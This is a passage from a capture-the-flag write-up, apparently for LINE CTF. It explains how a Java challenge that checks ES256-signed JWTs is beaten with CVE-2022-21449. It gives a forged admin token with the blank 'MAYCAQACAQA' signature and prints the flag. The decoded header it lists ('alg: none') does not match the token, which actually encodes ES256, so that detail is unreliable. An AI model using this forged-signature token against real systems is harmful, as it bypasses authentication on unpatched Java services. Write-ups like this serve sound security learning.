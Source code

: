 ```java
            } else if (claims.getSubject().equals(GUEST)) {
                sub = GUEST;
            }
        } catch (Exception e) {
            e.printStackTrace();
        }

        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}
```

This time the JWT is actually parsed, so the `none` trick will not work anymore. One thing to notice is that this version is using `ES256` instead of the usual `HS256`. This hints at an Elliptic Curve signature forgery. Since we don't have the public key, and the code is statically typed, we can't do the usual `RS256/ES256` to `HS256` (where the public key is used as the secret key for the hash function).

After a bit of researching ECDSA + Java, we find `CVE-2022-21449: Psychic Signatures in Java`, which has a nice PoC here: [https://gist.github.com/righettod/1d2f4498e3dba4fc779036ce83565d68](https://gist.github.com/righettod/1d2f4498e3dba4fc779036ce83565d68) with the following JWT: `eyJ0eXAiOiJKV1QiLCJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJSaWNrIEFzdGxleSIsImFkbWluIjp0cnVlLCJpYXQiOjE2NTA0NjY1MDIsImV4cCI6MTkwMDQ3MDEwMn0.MAYCAQACAQA`

We just need to edit it such that `sub` is set to `admin`
```
JWT
eyJ0eXAiOiJKV1QiLCJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.MAYCAQACAQA

Header 
{
  "typ": "JWT",
  "alg": "none"
}
Payload
{
  "sub": "admin"
}
```

**LINECTF{abaa4d1cb9870fd25776a81bbd278932}**

<a name="zipviewer-version-citizen"></a>
## zipviewer-version-citizen (110 pts, 81 solves) - Web

Description:
```
Read the flag (/flag)

http://34.84.43.130:11000/
```
